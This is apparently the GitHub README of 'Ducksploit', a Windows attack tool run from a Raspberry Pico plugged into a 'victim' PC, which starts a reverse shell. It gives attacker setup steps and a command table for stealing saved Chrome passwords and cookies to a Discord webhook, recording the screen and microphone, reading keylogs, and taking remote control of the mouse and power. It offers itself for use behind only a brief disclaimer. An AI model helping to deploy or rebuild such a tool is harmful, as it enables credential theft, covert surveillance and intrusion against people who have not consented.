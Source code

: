 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/dsbanner.png" alt="banner"/>

![](https://img.shields.io/badge/Version-1.0.7-red?style=for-the-badge) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT?style=for-the-badge) ![](https://img.shields.io/badge/Windows-blue?style=for-the-badge)

> Awsome crossbreed of batch and python on Windows ♥
 <center>
<img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465" alt="ruby" width="100"/><img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico (hacker)
1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
4. Move CircuitPython.uf2 file in the E:\ or F:\ <-- usb port (port of your pico)
   now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
5. Erase all the content of your raspberry pico and copy all the extracted repo folder into him
6. Write myip.txt and write your own IP
7. Now your raspberry pico is full configured , unplugg your pico and done!

###### setup ducksploit commands (hacker)

1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
4. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
5. wait till installation is finished
7. Ducksploit is now installed on your PC :smile:
8. Type 'ds' in the cmd
9. Wait victim's connection using 'wait' command
10. Have fun with ducksploit hacking commands (type help to get commands list)

⚠️ WHEN EXPLOIT/SCRIPT IS RUNNING, TYPE ON 'ESC' KEY ⚠️

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (victim)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/mindmap.png?raw=true">




#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
